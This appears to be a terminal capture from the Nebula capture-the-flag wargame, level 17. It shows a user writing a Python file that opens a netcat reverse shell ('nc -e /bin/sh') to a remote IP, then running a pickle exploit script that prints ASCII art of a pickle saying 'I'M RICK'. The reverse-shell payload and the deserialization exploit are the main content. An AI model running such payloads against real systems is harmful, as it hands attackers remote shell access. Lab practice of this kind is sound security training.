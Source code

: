 ```bash
level17@nebula:/tmp$ cat > rce.py
import os
os.system("nc.traditional -e /bin/sh 192.168.56.1 9999")
^C
level17@nebula:/tmp$ python evilPick.py --foo rce.py 
                             
                                                           -oysoosyyyo:`                            
                                                         :yyys+ossssyyyy+.                          
                                                       `oyyyysoo++oosyyyyy/                         
                                                      `yyyo//ossssss/syyyyy:                        
                                                     .yyy-`-``:ssssossyyyyyo                        
                                                    .yyyy.````-/.`.:osyyyyyy                        
                                                   -yyysyy+:/++``-.`:yyyyyyy                        
                                                  /yhhmNhssysss:.``-syyyyyyo                        
                                                 +yyhdNNmysysssyssyyyyyyyyy.                        
                                               `oyyysyhdNmmmhdmddyyyyyyyyy+                         
                                              `syhyysssyshdmmddNNmhyyyyyyy`                         
                                             `syyyyssssssssyohhmmdyyyyyyy-                          
                                            `syyyyyssssssssssshhyyyyyyyy:                           
                                           .syyyyysssssssssssyyyyyyyyyy/                            
                                          -yyyyyyssssssssssyyyyyyyyyyyo                             
                                         :yyyyyyssssssssssyyyyyyyyyyyo`                             
                                       `+yyyyyysssssssssyyyyyyyyyyyys`                              
                                      .syyyyyssssssssyyyyyyyyyyyyyys`                               
                                     :yyyyysssssssssyyyyyyyyyyyyyys.                                
                                   .oyyyyyssssssssyyyyyyyyyyyhyyyy.                                 
                                 `/syyyyysssssssssyyyyyyyyyyyyyyy-                                  
                               `:syyyyyysssssssssyyyyyyyyyyyyyys.                                   
                              -oyyyyyyysssssssssyyyyyyyyyyyyyyo`             I'M                       
                            `+yyyyyyhyssssssssyyyyyyyyyyyyyyy+              RICK                        
                           .syhyyyysssssssssyyyyyyyyyyyyyyyy/                                       
                          :yyyyyyyssssssssyyyyyyyyyyyyyyyyy-                                        
                         :yyyyyyssssssssyyyyyyyyyyyyyyyyyo.                                         
                        .hyyyyyssssssssyyyyyyyyyyyyyyyys-                                           
```
